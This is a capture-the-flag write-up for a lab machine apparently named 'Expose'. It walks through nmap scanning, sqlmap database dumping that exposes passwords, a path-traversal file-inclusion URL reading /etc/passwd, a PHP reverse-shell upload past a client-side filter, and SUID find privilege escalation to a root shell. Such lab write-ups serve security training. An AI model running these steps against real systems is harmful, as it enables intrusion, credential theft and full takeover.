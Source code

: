 To check my VPN connection was working I started with `ping -c4 10.10.116.11`. Everything seems to be working fine so let's start.
I ran `sudo nmap -sS -p- 10.10.116.111` to get an initial understanding of what ports were open on the target.

````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 15:51 EEST
Nmap scan report for 10.10.116.111
Host is up (0.075s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
````


Refined my command a bit
````
nmap -sVC -p21,22,53,1337,1883 10.10.116.111
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a5:d1:b7:3c:c5:03:aa:34:f1:a6:e3:5f:b7:cd:5b:46 (RSA)
|   256 14:da:96:fc:70:45:71:e7:39:c8:0f:c3:a9:7a:87:b2 (ECDSA)
|_  256 e2:90:b5:0b:ee:f1:a1:9a:77:e1:40:cc:65:ae:66:12 (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/load/connections/1min: 1.83
|     $SYS/broker/messages/sent: 13
|     $SYS/broker/heap/current: 50872
|     $SYS/broker/load/publish/sent/1min: 9.14
|     $SYS/broker/publish/bytes/sent: 55
|     $SYS/broker/load/messages/sent/5min: 2.55
|     $SYS/broker/load/sockets/5min: 0.74
|     $SYS/broker/clients/active: 1
|     $SYS/broker/load/bytes/sent/1min: 340.81
|     $SYS/broker/uptime: 682 seconds
|     $SYS/broker/load/bytes/received/15min: 4.57
|     $SYS/broker/clients/maximum: 1
|     $SYS/broker/load/publish/sent/5min: 1.96
|     $SYS/broker/load/bytes/sent/5min: 73.25
|     $SYS/broker/load/messages/received/15min: 0.20
|     $SYS/broker/load/connections/15min: 0.13
|     $SYS/broker/load/bytes/received/5min: 13.55
|     $SYS/broker/store/messages/bytes: 140
|     $SYS/broker/bytes/received: 69
|     $SYS/broker/subscriptions/count: 2
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/store/messages/count: 30
|     $SYS/broker/load/connections/5min: 0.39
|     $SYS/broker/publish/messages/sent: 10
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/load/bytes/received/1min: 63.04
|     $SYS/broker/load/messages/sent/15min: 0.86
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/clients/connected: 1
|     $SYS/broker/load/sockets/1min: 2.51
|     $SYS/broker/load/messages/received/1min: 2.74
|     $SYS/broker/load/sockets/15min: 0.30
|     $SYS/broker/messages/stored: 30
|     $SYS/broker/retained messages/count: 34
|     $SYS/broker/heap/maximum: 51272
|     $SYS/broker/load/publish/sent/15min: 0.66
|     $SYS/broker/clients/total: 1
|     $SYS/broker/bytes/sent: 373
|     $SYS/broker/load/messages/received/5min: 0.59
|     $SYS/broker/load/bytes/sent/15min: 24.72
|     $SYS/broker/load/messages/sent/1min: 11.88
|_    $SYS/broker/messages/received: 3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
````

So there is FTP, SSH, DNS domain, waste p2p encrypted file sharing software, and MQTT which is a home automation protocol running.
FTP server allows anonymous login without a password so let's start there. There are no files but the welcome message is `220 Welcome to the Expose Web Challenge.`
Went to `http://10.10.116.111:1337` with the browser and got a blank page with "EXPOSED" in it. Let's use ffuf to try to find some directories.
`ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.116.111:1337/FUZZ`
found "/admin, /admin_101, /javascript, /phpmyadmin & /server-status".

"/admin, /admin_101 & /phpmyadmin" all have login pages but "/admin" states "Is this the right admin portal?". Testing "/admin" login does not really do anything so let's look at the "/admin_101" next.
Used burp to proxy the request to a file for sqlmap to test for injection vulnerabilities. 
`sqlmap -l req --level=4 --risk=2` tells that backend server seems to be "MySQL 
`sqlmap -l req --dbms=MySQL --dbs` found "[*] expose,[*] information_schema,[*] mysql,[*] performance_schema,[*] phpmyadmin,[*] sys" databases.
`sqlmap -l req --dbms=MySQL -D expose,mysql,phpmyadmin --tables` dumps tables from databases "expose,mysql,phpmyadmin".
I started with expose database. There were "user, config" tables so lets find out columns for "user" table. 
`sqlmap -l req --dbms=MySQL -D expose -T user --columns` found "created,email,id,password" columns so let's dump them!
````
+-----------------+----+--------------------------------------+
| email           | id | password                             |
+-----------------+----+--------------------------------------+
| hacker@root.thm | 1  | VeryDifficultPassword!!#@#@!#!@#1231 |
+-----------------+----+--------------------------------------+
````
This grants login to "/admin_101" but there is nothing.

`sqlmap -l req --dbms=MySQL -D expose -T config --dump` gives more interesting output
````
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
````
I tried to crack hash with JohnTheRipper but it didn't work. I used crackstation.com to see if it would work, and it did. The password is "easytohack".
Tried to brute force 
````
http://10.10.116.111:1337/upload-cv00101011/index.php
````
with z starting usernames as it hints that the username starts with "z" but it didn't work.
"/file1010111/index.php" lets me in with the password "easytohack". Looking at the source code there is a "Hint: Try file or view as GET parameters?". 
It hints towards LFI(local file inclusion). Trying 
````
http://10.10.116.111:1337/file1010111/index.php?file=../../../../../../../../../etc/passwd
````
spits out the whole passwd file!

In the file is user "zeamkish", trying that on 
````
http://10.10.116.111:1337/upload-cv00101011/index.php
````
gives upload page. 
The source code tells me that there is a javascript function that only allows "jpg & png" files. Let's try to bypass it with burp.
I will create a rev.php.png file with php reverse shell inside and upload it with burp. I intercept the upload and remove ".png" extension from the reverse shell and it goes through!
The site says "File uploaded successfully! Maybe look in source code to see the path" so again I looked at the source code and found that the file went to "/upload_thm_1001".
I start a listener port the port in the reverse shell and execute our reverse shell by just clicking the file and we got our shell!

I looked at the folder I landed in but there was nothing. Checked home folders of "ubuntu" and "zeamkish". In zeamkish folder was a file named "ssh_creds.txt"!
Let's try them for ssh `ssh zeamkish@10.10.116.111` and we are in as zeamkish.

I uploaded "linpeas.sh" to help with enumeration. There is an uncommon binary with suid bit.
`-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find`

I had a look at gtfobins and found that you can spawn a privileged shell with: `./find . -exec /bin/sh -p \; -quit`
The flag was `/root/flag.txt`
